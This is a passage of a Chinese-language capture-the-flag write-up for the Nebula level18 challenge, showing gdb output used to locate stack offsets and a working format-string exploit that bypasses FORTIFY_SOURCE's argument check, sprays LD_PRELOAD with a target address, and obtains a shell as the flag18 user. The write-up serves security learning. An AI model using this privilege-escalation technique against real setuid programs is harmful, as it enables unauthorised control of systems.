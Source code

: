 使用find在栈中寻找标记，然后计算出跟`ebp`的偏移量为1184，后续需要用到。

```
(gdb) r -d out -vvv
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/flag18/flag18 -d out -vvv

Breakpoint 1, 0x40068140 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
(gdb) c
Continuing.
site exec %1$*269208516$x %1073741824$

Program received signal SIGSEGV, Segmentation fault.
0x40069359 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
(gdb) i r
eax            0x100bcbc3       269208515
ecx            0xbfb8e0a0       -1078402912
edx            0xbfb8e0a0       -1078402912
ebx            0x4019fff4       1075445748
esp            0xbfb8e06c       0xbfb8e06c
ebp            0xbfb8ecb8       0xbfb8ecb8
esi            0x0      0
edi            0xbfb8e0b0       -1078402896
eip            0x40069359       0x40069359 &lt;vfprintf+4649&gt;
eflags         0x10213  [ CF AF IF RF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) x/x $ebp-1184
0xbfb8e818:     0x40000000
(gdb) p/d (0xbfb8e818-$ecx)/4 + 1
$12 = 479
```

根据之前计算的偏移值，确定`nargs`在内存的地址为0xbfb8e818（通过与ebp的偏移计算），用同样的方法计算出能覆盖它的偏移。

然而，直接输入`site exec %1$*479$ %1$*2848$ %1073741824$`会导致`Segmentation fault`，这是由于栈地址在高端地址，部分操作会造成越界访问。这里需用到一个环境变量的小技巧，通过设置一个很大的环境变量，使栈地址降低。

[![](https://p1.ssl.qhimg.com/t018cc7609ba6f87693.png)](https://p1.ssl.qhimg.com/t018cc7609ba6f87693.png)

之前用ida分析，可以知道`globals.loggedin`在 0x804b0b4 处，由于程序没开PIE保护，这个地址是固定的，因此我们可以在`LD_PRELOAD`中大量填充这个地址，用于格式化字符串修改`globals.loggedin`的值，由于这个值只要不为0即可运行shell，因此不需精确控制写入的值，偏移也随便就好（因为栈里面有一大堆它的地址）。

```
level18@nebula:/tmp$ export LD_PRELOAD=`python -c 'print "xb4xb0x04x08"*9000'`
level18@nebula:/tmp$ (python -c "print 'site exec |%66$n| %1$*479$ %1$*2848$ %1073741824$nshelln'";cat) | /home/flag18/flag18 --init-file -d /dev/tty -vvv 2&gt;/dev/null
Starting up. Verbose level = 3

...

' from LD_PRELOAD cannot be preloaded: ignored.
bash
id
uid=981(flag18) gid=1019(level18) groups=981(flag18),1019(level18)
getflag
You have successfully executed getflag on a target account
```
